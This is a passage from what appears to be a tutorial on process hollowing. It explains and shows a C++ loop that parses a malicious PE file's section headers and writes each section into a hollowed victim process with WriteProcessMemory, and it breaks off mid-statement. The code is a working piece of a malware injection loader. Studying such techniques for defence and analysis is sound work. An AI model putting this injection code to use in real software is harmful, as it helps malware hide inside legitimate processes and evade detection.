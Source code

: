 ![](/assets/img/posts/img_process_hollowing/sizeofheaders_value.png)
_Figure 9: Offset of SizeOfHeaders from IMAGE_OPTIONAL_HEADER._

Now, we can inject the sections of the malicious PE file by looping through the `section headers`, parsing their `virtual addresses`, and then using `WriteProcessMemory()` to write them into the targeted process.

```c++
for (int i = 0; i < pNTHeaders->FileHeader.NumberOfSections; i++)
{
 // Parse the section header
 PIMAGE_SECTION_HEADER pSectionHeader = (PIMAGE_SECTION_HEADER)((LPBYTE)pMalImage
  + pDOSHeader->e_lfanew
  + sizeof(IMAGE_NT_HEADERS)
  + (i * sizeof(IMAGE_SECTION_HEADER)));

 // Get the virtual address of the section and write it
 WriteProcessMemory(pVictimProcessInfo->hProcess,
  (LPVOID)((LPBYTE)pVictimHollowedAlloc + pSectionHeader->VirtualAddress),
  (LPVOID)((LPBYTE)pMalImage + pSectionHeader->PointerToRawData),
  pSectionHeader->SizeOfRawData,
  0);

 // Log data to the console for info purposes
 std::cout << "\t[i] Section "
  << pSectionHeader->Name
  << " written at -> 0x"
  << std::hex
  << (UINT)pVictimHollowedAlloc + pSectionHeader->VirtualAddress
  << '\n';
 std::cout << "\t\t[i] Malicious section header virtual address -> 0x"
  << std::hex
  << (UINT)pSectionHeader->VirtualAddress
  << '\n';
 std::cout << "\t\t[i] Malicious section header ptr to raw data -> 0x"
  << std::hex
```